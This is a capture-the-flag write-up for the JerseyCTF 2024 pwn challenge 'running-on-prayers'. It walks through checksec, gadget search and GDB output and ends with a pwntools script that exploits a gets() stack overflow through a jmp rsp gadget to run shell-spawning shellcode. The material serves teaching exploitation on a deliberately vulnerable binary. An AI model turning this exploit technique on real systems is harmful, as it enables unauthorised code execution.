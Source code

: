 +++
title = 'JerseyCTF 2024 - pwn/running-on-prayers'
date = 2024-03-24T18:51:51-04:00
draft = false
+++

We are given an executable and a netcat port. The name of the challenge suggests that this is a ROP challnege. Looking at the binary, all protections are off and the stack is executable, so we can inject shellcode.

```sh
checksec --file RunningOnPrayers
[*] '/home/df00/Desktop/RunningOnPrayers'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

The binary itself is very minimal, There is a main function that calls a vuln function. We use gets to read into a buffer, and that gives us our buffer overflow.

```c
undefined8 vuln(void)
{
  char local_28 [32];
  
  printf("The hard part is not finding the vulnerability, but actually doing something with it");
  gets(local_28);
  return 0;
}
```

I used ROPGadget to search for gadgets that we can use. Unfortunetly, no 'pop rdi' as that would have made things very easy. Given that we probably need to execute shellcode in this challenge, call and jmp would be useful gadets.

```sh
ROPgadget --binary RunningOnPrayers | grep "call"
0x000000000040100d : add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
0x000000000040103e : call qword ptr [rax - 0x5e1f00d]
0x0000000000401014 : call rax
0x0000000000401012 : je 0x401016 ; call rax
0x000000000040105b : sar edi, 0xff ; call qword ptr [rax - 0x5e1f00d]
0x0000000000401010 : test eax, eax ; je 0x401016 ; call rax
0x000000000040100f : test rax, rax ; je 0x401016 ; call rax

```

```sh
ROPgadget --binary RunningOnPrayers | grep "jmp"
0x0000000000401036 : add byte ptr [rax], al ; add dl, dh ; jmp 0x401020
0x0000000000401038 : add dl, dh ; jmp 0x401020
0x0000000000401173 : cli ; jmp 0x401100
0x0000000000401170 : endbr64 ; jmp 0x401100
0x00000000004010e5 : je 0x4010f0 ; mov edi, 0x404040 ; jmp rax
0x0000000000401127 : je 0x401130 ; mov edi, 0x404040 ; jmp rax
0x000000000040103a : jmp 0x401020
0x0000000000401174 : jmp 0x401100
0x000000000040100b : jmp 0x4840103f
0x00000000004010ec : jmp rax
0x0000000000401231 : jmp rsp
0x00000000004010e7 : mov edi, 0x404040 ; jmp rax
0x000000000040116c : nop dword ptr [rax] ; endbr64 ; jmp 0x401100
0x00000000004010e6 : or dword ptr [rdi + 0x404040], edi ; jmp rax
0x00000000004010e3 : test eax, eax ; je 0x4010f0 ; mov edi, 0x404040 ; jmp rax
0x0000000000401125 : test eax, eax ; je 0x401130 ; mov edi, 0x404040 ; jmp rax

```

Given that we have both jmp rax and call rax, my first thought was that we could use that. Lets overflow the buffer and take a look with GDB to see what happens.

```sh
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x007fffffffdfe0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x0               
$rcx   : 0x007ffff7e1aaa0  →  0x00000000fbad208b
$rdx   : 0x1               
$rsp   : 0x007fffffffdfe0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbp   : 0x007fffffffe000  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$rsi   : 0x1               
$rdi   : 0x007ffff7e1ca80  →  0x0000000000000000
$rip   : 0x000000004011a7  →  <vuln+49> mov eax, 0x0
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x007ffff7c09c78  →  0x000f0022000043b3
$r11   : 0x246             
$r12   : 0x007fffffffe128  →  0x007fffffffe448  →  "/home/df00/Desktop/RunningOnPrayers"
$r13   : 0x000000004011ae  →  <main+0> endbr64 
$r14   : 0x00000000403e18  →  0x00000000401140  →  <__do_global_dtors_aux+0> endbr64 
$r15   : 0x007ffff7ffd040  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 

```

Here I just overflowed the buffer with all A's, but we see that our input is in rax. So if we fill our buffer with shellcode and call rax, it should execute right? Unfortunetly it won't. At vuln+49 right before we return, eax (lower 32 bits of rax) is set to zero.

```sh
gef➤  disas vuln
Dump of assembler code for function vuln:
   0x0000000000401176 <+0>:	endbr64 
   0x000000000040117a <+4>:	push   rbp
   0x000000000040117b <+5>:	mov    rbp,rsp
   0x000000000040117e <+8>:	sub    rsp,0x20
   0x0000000000401182 <+12>:	lea    rax,[rip+0xe7f]        # 0x402008
   0x0000000000401189 <+19>:	mov    rdi,rax
   0x000000000040118c <+22>:	mov    eax,0x0
   0x0000000000401191 <+27>:	call   0x401060 <printf@plt>
   0x0000000000401196 <+32>:	lea    rax,[rbp-0x20]
   0x000000000040119a <+36>:	mov    rdi,rax
   0x000000000040119d <+39>:	mov    eax,0x0
   0x00000000004011a2 <+44>:	call   0x401070 <gets@plt>
=> 0x00000000004011a7 <+49>:	mov    eax,0x0
   0x00000000004011ac <+54>:	leave  
   0x00000000004011ad <+55>:	ret    
End of assembler dump.
```
The other gadget that we can use is jmp rsp, and looking above we see that out input is also in rsp.

```sh
0x0000000000401231 : jmp rsp
```

rsp will point at the thing after the return pointer once ret has occured, so our shellcode will go right after jmp rsp.

The final solve script. Unfortunetly, the netcat port was down for almost the whole CTF, but as they say - it worked on my machine :) 

```python
from pwn import *

elf = ELF("./RunningOnPrayers")

context.binary = elf
context.log_level = "DEBUG"

libc = elf.libc
target = process("./RunningOnPrayers")


target.recvuntil("it")

jmp_rsp = next(elf.search(asm('jmp rsp')))
payload = flat(
    'A' * 0x28,             
    jmp_rsp,                
    asm(shellcraft.sh())     
)

target.sendline(payload)
target.interactive()
```


